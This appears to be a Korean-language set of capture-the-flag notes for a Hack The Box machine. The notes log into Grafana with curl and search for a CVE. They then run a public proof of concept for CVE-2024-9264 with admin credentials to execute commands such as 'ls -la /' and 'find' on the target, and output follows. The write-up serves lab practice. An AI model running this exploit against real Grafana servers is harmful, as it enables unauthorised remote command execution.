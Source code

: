 # 로그인 성공

{"message":"Logged in","redirectUrl":"/"}
-c: 쿠키를 저장할 파일
-X POST: HTTP 메소드 지정

# 저장된 쿠키로 본격 접근

curl -b cookies.txt http://grafana.planning.htb/

# duckduckgo 설치

apt update
apt install ddgr

# 삭제

apt remove ddgr

# 검색

ddgr grafana 11 cve

# grafana 11.0.0 cve poc 구글링

https://github.com/nollium/CVE-2024-9264

# pyton 가상화 실행

apt install python3
apt instsall python3-venv

python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt

# 취약점 실행

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la /" http://grafana.planning.htb

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "find / -name user | 2>/dev/null" http://grafana.planning.htb
/usr/bin/umount
/usr/bin/mount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
